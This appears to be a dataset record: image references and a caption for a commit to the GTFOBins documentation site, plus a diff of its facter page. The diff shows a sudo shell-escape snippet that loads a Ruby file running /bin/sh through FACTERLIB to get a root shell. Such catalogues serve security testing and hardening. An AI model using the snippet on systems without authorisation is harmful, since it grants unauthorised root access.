

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/facter.md, in a window 1280 px wide. Shown: the part 410-574 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/facter.md
+++ b/_gtfobins/facter.md
@@ -9,5 +9,5 @@ functions:
     - code: |
         TF=$(mktemp -d)
         echo 'exec("/bin/sh")' > $TF/x.rb
-        FACTERLIB=$TF sudo -E facter
+        sudo FACTERLIB=$TF facter
 ---
```
Also changed, not shown: _gtfobins/git.md (+1 -1 lines), _gtfobins/nroff.md (+1 -1 lines).
